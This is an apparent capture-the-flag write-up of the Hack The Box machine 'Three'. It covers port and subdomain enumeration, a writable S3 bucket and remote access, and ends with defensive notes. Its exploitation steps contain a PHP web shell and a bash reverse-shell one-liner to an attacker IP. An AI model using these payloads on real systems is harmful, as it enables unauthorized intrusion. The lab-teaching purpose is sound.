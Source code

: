 ```yaml
---
title: "Three"
draft: false
date: 2025-08-28 01:09:33 +0300
description: A beginner-friendly Boot2Root machine from HTB.
categories: ["HTB", "NMAP", "FFUF", "aws s3", "awscli", "very easy", "boot2root", "B2R"]
tags: ["HTB", "NMAP", "FFUF", "aws s3", "awscli", "very easy", "boot2root", "B2R"]
featureimage: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/49fa1274ca631fd870e9feca35b7d7c2.png"
---
```

# Three

## Description
**Three** is a Linux machine hosting a website that uses an **AWS S3 bucket** as its cloud storage.  
The bucket is misconfigured, allowing us to upload a malicious file.  
By executing this file through the website, we can gain remote access to the system and retrieve the flag.


## Enumeration

### Step 1: Scanning the Target for Open Ports
Start with a full port scan to identify services running on the machine:

```bash
nmap -sV -p- 10.129.227.248 -T4
```

**Output:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

**Findings:**
- Port 22 (SSH) is open.
- Port 80 (HTTP) is hosting a website.

### Step 2: Exploring the Website
1. Visit the site in your browser using the target IP on port 80.
2. Check the Contact section and note the email address:
   ```
   mail@thetoppers.htb
   ```
3. Since the domain `thetoppers.htb` is being used, map it to the target IP in your `/etc/hosts` file:
   ```bash
   echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
   ```

> **Tip:** `/etc/hosts` lets you manually link a domain name to an IP address so your computer can access the site without DNS.

### Step 3: Enumerating Subdomains
Use `ffuf` to brute-force possible subdomains:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-u http://thetoppers.htb \
-H "Host: FUZZ.thetoppers.htb" \
-ac
```

**Result:**
```
s3.thetoppers.htb
```

Map this subdomain as well:
```bash
echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Visit it in the browser or via curl:
```bash
curl http://s3.thetoppers.htb
```

**Output:**
```json
{"status": "running"}
```

This indicates that the site is using an Amazon S3-like storage service.

> **What is Amazon S3?**
> Amazon Simple Storage Service (S3) is a cloud service that stores files.
> A misconfigured S3 bucket can allow unauthorized reading, writing, or deleting of files.

## Configuring and Interacting with the S3 Bucket

### Step 4: Setting Up AWS CLI
Install and configure the AWS CLI if you haven't already:

```bash
aws configure
```

Use temporary placeholder values since authentication is not enforced:
```
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

### Step 5: Listing Buckets and Files
List all available buckets:
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls
```

List files inside the bucket:
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

## Exploiting the S3 Bucket

### Step 6: Uploading a Web Shell
Create a simple PHP shell locally:
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Upload the shell:
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Visit the uploaded file to test command execution:
```
http://thetoppers.htb/shell.php?cmd=whoami
```

**Output:**
```
www-data
```

This confirms that you can run commands on the server.

### Step 7: Setting Up a Reverse Shell
Create a reverse shell script locally (change `10.10.16.2` to your attacker IP):
```bash
echo '#!/bin/bash
bash -i >& /dev/tcp/10.10.16.2/1234 0>&1' > shell.sh
```

Upload the script:
```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.sh s3://thetoppers.htb
```

Set up a listener on your machine:
```bash
nc -lvnp 1234
```

Trigger the reverse shell by visiting:
```
http://thetoppers.htb/shell.php?cmd=bash%20shell.sh
```

**Output:**
```
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.129.227.248] 44028
bash: no job control in this shell
www-data@three:/var/www/html$
```

## Post-Exploitation

### Step 8: Finding the Flag
Once connected, look for the flag:
```bash
locate flag.txt
```

**Output:**
```bash
/var/www/flag.txt
```

Read the flag:
```bash
cat /var/www/flag.txt
```

## Blue Team Notes
The root cause is a publicly writable S3 bucket.

To prevent such issues:
- Restrict bucket permissions to only trusted IAM users.
- Disable public access unless explicitly required.
- Monitor bucket activity logs for unusual operations.

## Key Takeaways
- Misconfigured S3 buckets are a common attack vector.
- Always enumerate subdomains when testing web applications.
- Gaining command execution can often lead to a reverse shell for deeper access.
